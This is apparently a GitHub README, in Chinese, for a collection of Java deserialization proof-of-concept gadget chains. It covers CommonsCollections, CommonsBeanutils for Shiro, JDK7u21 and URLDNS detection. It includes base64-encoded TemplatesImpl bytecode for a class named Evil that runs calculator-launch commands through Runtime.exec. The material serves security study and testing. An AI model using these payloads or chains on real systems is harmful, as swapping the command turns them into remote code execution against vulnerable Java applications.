

# Java-Poc
Java反序列化Poc合集（代码非原创，仅供学习）



# 使用

探测 Java 反序列化漏洞

```
URLDNS
```

## 一

CommonsCollections <= 3.2.1

```
CommonsCollections1
CommonsCollections1LazyMap
CommonsCollections3
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1（allowTemplates）
CommonsCollectionsK3
```

## 二

CommonsCollections 4.0

```
CommonsCollections2
CommonsCollections3For4
CommonsCollections4
CommonsCollectionsK2（allowTemplates）
CommonsCollectionsK4
```

## 三

### Shiro

CommonsCollections <= 3.2.1

```
CommonsBeanutils1
CommonsCollectionsK1（allowTemplates）
CommonsCollectionsK3（allowTemplates）
```

无CommonsCollections <= 3.2.1

```
CommonsBeanutils1Shiro
```

## 四

JDK =< 7u21

```
JDK7u21
```

# 环境

```
IntelliJ IDEA Community Edition 2022.1.1
jdk1.8.0_65
```

# 帮助

**Macos和Windows计算器**

```
#Macos
open /System/Applications/Calculator.app

#Windows
calc.exe
```

**TemplatesImpl字节码**

calc.exe

```
yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAA4ADwcAHAwAHQAeAQAIY2FsYy5leGUMAB8AIAEABEV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAGQAAAAMAAAABsQAAAAEACgAAAAYAAQAAAAkACwAAAAQAAQAMAAEABwANAAIACQAAABkAAAAEAAAAAbEAAAABAAoAAAAGAAEAAAANAAsAAAAEAAEADAABAA4ADwACAAkAAAAuAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAEACgAAAA4AAwAAAA8ABAAQAA0AEQALAAAABAABABAAAQARAAAAAgAS
```

open /System/Applications/Calculator.app

```
yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAA4ADwcAHAwAHQAeAQAob3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAwAHwAgAQAERXZpbAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAUABgAAAAAAAwABAAcACAACAAkAAAAZAAAAAwAAAAGxAAAAAQAKAAAABgABAAAACQALAAAABAABAAwAAQAHAA0AAgAJAAAAGQAAAAQAAAABsQAAAAEACgAAAAYAAQAAAA0ACwAAAAQAAQAMAAEADgAPAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAADwAEABAADQARAAsAAAAEAAEAEAABABEAAAACABI
```

